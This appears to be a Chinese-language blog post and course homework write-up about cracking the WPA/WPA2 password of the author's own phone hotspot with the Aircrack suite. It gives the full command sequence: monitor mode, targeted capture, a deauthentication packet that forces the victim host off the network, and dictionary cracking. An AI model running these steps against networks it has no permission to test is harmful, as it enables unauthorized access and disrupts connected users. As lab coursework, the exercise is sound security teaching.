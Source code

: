 ```yaml
---
title: 窥间伺隙：Aircrack 套件破解 WPA/WPA2 密码
date: 2020-10-18 13:24:01
tags:
  - Kali
  - 网络
  - 实践记录
categories:
  - 安全工具
featuredImage: https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/AircrackWPA/0.jpg
---
```


《无线网络安全》作业。梦回大一。

<!--more-->

## 准备工作

手机开启热点，设置弱密码 `merc123321`，热点 SSID 为 `nova 4`。物理机连接 `nova 4` 无线网络作为被害主机。

![图 1]({{< param cdnPrefix >}}/AircrackWPA/1.png)

为 Kali 虚拟机添加无线网卡，随后即可在 `ifconfig` 的输出中看到 `wlan0` 网卡：

![图 2]({{< param cdnPrefix >}}/AircrackWPA/2.png)

首先启动监听：

```shell
$ sudo airmon-ng start wlan0
```

结果如图：

![图 3]({{< param cdnPrefix >}}/AircrackWPA/3.png)

此时 `ifconfig` 可以看到 `wlan0mon` 监听网卡：

![图 4]({{< param cdnPrefix >}}/AircrackWPA/4.png)

随后扫描无线网络：

```shell
$ sudo airodump-ng wlan0mon
```

结果如图，可以看到 `nova 4` 网络的 BSSID 为 `D8:9B:3B:9E:AB:A9`。

![图 5]({{< param cdnPrefix >}}/AircrackWPA/5.png)

利用该 BSSID 过滤掉其余网络流量：

```shell
$ sudo airodump-ng -c 11 --bssid D8:9B:3B:9E:AB:A9 -w psk wlan0mon
```

结果如图：

![图 6]({{< param cdnPrefix >}}/AircrackWPA/6.png)

## 捕获 WPA 握手包

此时我们需要捕获到 WPA 握手包，因此可以攻击一个已经连接到该网络的主机（即我们的物理机），让它强制掉线并重连产生握手包。

首先查看被害主机 MAC 地址：

![图 7]({{< param cdnPrefix >}}/AircrackWPA/7.png)

可以看到 MAC 地址为 `F4:8C:50:9F:E5:43`。实际上，在前面 `airodump-ng` 时的界面中也可以直接看到连接了该网络的主机 MAC 地址。随后发送 `DeAuth` 包使其掉线：

```shell
$ sudo aireplay-ng -0 1 -a D8:9B:3B:9E:AB:A9 -c F4:8C:50:9F:E5:43 wlan0mon
```

出现 `WPA handshake` 即捕获到了握手包，可以停止捕获了。

![图 8]({{< param cdnPrefix >}}/AircrackWPA/8.png)

## 口令破解

此时在目录下会生成 `psk-01.cap` ，我们使用 `aircrack-ng` 进行口令破解：

```shell
$ sudo aircrack-ng -w password.lst -b D8:9B:3B:9E:AB:A9 psk*.cap
```

使用的字典中包含了 `merc123321` 这个真正的密码：

```shell
$ cat password.lst
merc123
merc1234
merc123456
123merc
1234merc
123456merc
merc123321
merc321123
```

最后即可成功破解：

![图 9]({{< param cdnPrefix >}}/AircrackWPA/9.png)